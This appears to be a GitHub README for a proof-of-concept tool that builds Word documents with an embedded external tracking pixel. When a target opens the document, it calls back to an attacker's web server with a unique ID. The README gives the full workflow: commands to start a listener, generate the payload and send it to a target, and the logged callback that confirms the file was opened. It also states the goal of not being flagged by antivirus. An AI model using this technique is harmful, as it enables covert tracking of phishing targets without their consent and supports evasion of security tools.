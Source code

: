# doc-tracking-payload

### Tracking Document Payloads
This is a really basic PoC for tracking whether a unique user has opened an email attachment. Arguably, you cannot really be 100% the correct user has accessed the attachment vs. another user or potentially a sandbox with this method. If there are more novel ways of doing this without macros, I'd be excited to hear them.

This currently functions by embedding a tracking pixel in the header of an Office document which points at an external resource. User correlation is possible because each time a document is generated, a new RID is assigned to it. There's nothing inherently malicious about the blank template so hopefully it won't be flagged by AV.

### Example Operation

First setup a webserver (I use pythom -m SimpleHTTPServer 1337 or whatever)

```
python -m SimpleHTTPServer 1337
Serving HTTP on 0.0.0.0 port 1337 ...
```
Then create the payload and send it over to the target

```
./doc-tracking.py --lhost 192.168.1.9 --lport 1337 --cleanup
Host: 192.168.1.9
Port: 1337
RID: e2be995d43034f3f89a34a9433071f3c
Outputfile: Doc1-e2be995d43034f3f89a34a9433071f3c.docx
Waiting for file operations to finish...
./tmp-extract/ has been cleaned up
```
When the payload is opened you should receive confirmation
```
192.168.1.18 - - [01/Nov/2018 18:53:28] code 404, message File not found
192.168.1.18 - - [01/Nov/2018 18:53:28] "GET /img.php?rid=e2be995d43034f3f89a34a9433071f3c&type=img HTTP/1.1" 404 -
```
